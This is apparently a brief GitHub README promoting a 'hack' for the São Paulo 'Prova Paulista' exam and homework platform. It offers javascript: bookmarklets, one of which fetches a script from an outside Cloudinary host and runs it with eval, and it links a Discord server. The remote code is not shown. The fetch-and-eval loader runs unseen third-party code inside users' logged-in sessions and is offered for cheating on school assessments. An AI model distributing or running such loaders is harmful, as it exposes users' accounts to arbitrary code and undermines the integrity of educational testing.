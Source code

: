 # 🚀 HCK - PROVA PAULISTA 

### HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### HCK - TAREFAS:
```js
javascript:fetch("TESTES").then(t=>t.text()).then(eval);
```

### [Discord: Hackermoon](https://discord.gg/k5BFyvbj)
